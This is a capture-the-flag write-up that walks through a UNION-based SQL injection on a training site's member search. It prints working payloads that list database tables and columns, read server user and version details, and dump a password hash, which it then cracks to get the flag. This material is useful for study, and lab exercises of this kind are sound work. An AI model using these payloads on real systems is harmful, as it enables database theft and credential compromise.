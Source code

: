 # SQL Injection Bruteforce Members

On the member page, there is a search member by id bar.

Lets try to search with the id 1
```
ID: 1
First name: one
Surname : me
```

We got 3 informations.
Same info on id 2 and 3. But nothing on 4...

Id 5 give us something interesting.

```
ID: 5
First name: Flag
Surname : GetThe
```

When we try a research with 'A' character, we got an error message.

```
Unknown column 'A' in 'where clause'
```

If we copy that in google, we can find that is a mySQL error.
So we can try to insert/inject a part of sql request to show the database.

_But how and what?_

The UNION command allow us to concat multiple requests.
To forge our injection we have to put an ID first, follow by UNION and a second command.

A classic in sqli is to use SELECT to display _information_schema.tables_

Lets try something
```
1 UNION SELECT * FROM information_schema.tables
```

This doesn't work because here, we have to give 2 informations to select to fill the array in first name and surname fields.

```
1 UNION SELECT table_name, table_schema FROM  information_schema.tables
```
It's work!

We got all the tables names and their schemas names:
```
ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: db_default
Surname : Member_Brute_Force

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: users
Surname : Member_Sql_Injection

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: guestbook
Surname : Member_guestbook

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: list_images
Surname : Member_images

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: vote_dbs
Surname : Member_survey
```

But here we need the column_name for each table_name or table_schema.</br>
So lets try this
```
1 UNION ALL SELECT table_name,column_name FROM information_schema.columns;#
```

We now have everything we need to display what we want in the database!

**Awesome!!!**

```
ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : username

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : password

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : user_id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : first_name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : last_name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : town

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : country

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : planet

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : Commentaire

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : countersign

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : id_comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : url

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : title

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : id_vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : nb_vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : subject
```

We can also get some versions and others usefull informations!

```
1 UNION ALL SELECT system_user(), user();#
1 UNION ALL SELECT UUID(), @@version;#
```

As _countersign_ and _Commentaire_ are columns of _Member_Sql_Injection_ schema, which is part of the table_name _users_.
```
1 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users
```
```
ID: 1 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```

We find "FortyTwo", that give "fortytwo" in lowerchar.

To encrypt it in Sha256, we can use Cyberchef.

https://gchq.github.io/CyberChef/#recipe=SHA2('256',64,160)&input=Zm9ydHl0d28

And we got the flag:

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## External Resources
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://owasp.org/www-community/attacks/SQL_Injection
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
https://sql.sh/cours/union
